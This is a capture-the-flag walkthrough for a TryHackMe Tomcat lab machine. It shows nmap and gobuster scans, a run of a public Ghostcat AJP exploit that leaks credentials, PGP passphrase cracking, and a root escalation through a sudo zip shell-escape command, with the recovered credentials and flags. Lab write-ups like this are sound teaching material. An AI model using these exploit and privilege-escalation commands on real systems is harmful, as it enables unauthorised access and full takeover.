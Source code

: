 # TryHackMe-Thompson

> Abdullah Rizwan | 20th September , 10:15 PM

## NMAP


```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-20 13:15 EDT
Nmap scan report for 10.10.109.92
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.92 seconds

```


## Gobuster

```
gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-m
edium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.109.92:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/20 13:18:06 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)

```

When we visit `/manger` we are not prompt with login.

https://imgur.com/fQZgbPW.png

Now we can look for port `8009` and there is an exploit for it `https://github.com/00theway/Ghostcat-CNVD-2020-10487.git`

Run the exploit 

```
python3 ajpShooter.py http://10.10.109.92:8080 8009 /WEB-INF/web.xml read
``` 

https://imgur.com/iVdmiAn.png


You will find credential `skyfuck`:`8730281lkjlkjdqlksalks`


https://imgur.com/g1atsoj.png

Going to `merlin`'s folder we can find `THM{GhostCat_1s_so_cr4sy}`

we can see two files `credentials.pgp` and `tryhackme.asc` so we are going to use `gpg2john` to find hash of  `tryhackme.asc`

https://imgur.com/dwB310K.png

https://imgur.com/nj8nfcL.png

```
alexandru        (tryhackme)
```

We will use gpg to import a file 

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

```
Then we will specify from using `tryhackme.asc` we will decrypt `credential.pgp` by using `alexandru `.
```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 

```
We are given a username and password

`merlin`:`asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:/home/skyfuck$ 

```
We can run `zip` as root so let's find how we can escalate our privileges.

## Privilege Escalation

Visiting `https://gtfobins.github.io/gtfobins/zip/` 
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```



```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
rm: missing operand
Try 'rm --help' for more information.
# ls -la
total 44
drwxr-xr-x 4 skyfuck skyfuck 4096 Sep 20 10:55 .
drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  167 Sep 20 11:10 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Sep 20 10:48 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
drwx------ 2 skyfuck skyfuck 4096 Sep 20 11:16 .gnupg
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
# whoami
root
# 

```
We are now root.

`THM{Z1P_1S_FAKE}`.
